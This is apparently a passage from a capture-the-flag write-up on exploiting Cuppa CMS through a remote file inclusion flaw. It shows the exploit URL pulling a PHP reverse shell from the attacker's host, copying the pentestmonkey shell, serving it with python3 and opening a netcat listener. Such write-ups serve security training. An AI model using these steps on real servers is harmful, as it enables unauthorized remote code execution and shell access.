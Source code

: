 ```bash
❯ searchsploit cuppa
-------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                                                          |  Path
-------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Cuppa CMS - '/alertConfigField.php' Local/Remote File Inclusion                                                                                         | php/webapps/25971.txt
-------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
```

After checking with `searchsploit` i found a File Inclusion exploit, so let's check how it works.

```bash
❯ searchsploit -m php/webapps/25971.txt
  Exploit: Cuppa CMS - '/alertConfigField.php' Local/Remote File Inclusion
      URL: https://www.exploit-db.com/exploits/25971
     Path: /usr/share/exploitdb/exploits/php/webapps/25971.txt
    Codes: OSVDB-94101
 Verified: True
File Type: C++ source, ASCII text, with very long lines (876)
Copied to: /home/ne4rby/Documents/CTFs/SkyNet/content/25971.txt

❯ cat 25971.txt
```

After checking how the exploit works, i found that we can **inject PHP code** on account of a **Remote File Inclusion** (**RFI**) vulnerability.

We can host a **PHP Reverse Shell** and make the server interpret the file by using the following path `http://<TARGET-IP>/45kra24zxs28v3yd/administrator/alerts/alertConfigField.php?urlConfig=http://<LOCAL-IP>/shell.php`.

So let's start hosting the **PHP Reverse Shell**, if we are using **Kali** or **Parrot**  we can find the classic [Monkey Pentester PHP Reverse Shell](https://pentestmonkey.net/tools/web-shells/php-reverse-shell) at `/usr/share/webshells/laudanum/php/php-reverse-shell.php`, so let's copy it to our current directory.

```bash
cp /usr/share/webshells/laudanum/php/php-reverse-shell.php .
```

Just modify your **IP Address** & **Port** in the code and it's ready to use, then we can host it using `python3`.

```bash
python3 -m http.server 80
```

Then let's set a `netcat` listener listening at port **443** 

```bash
nc -nvlp 443
```

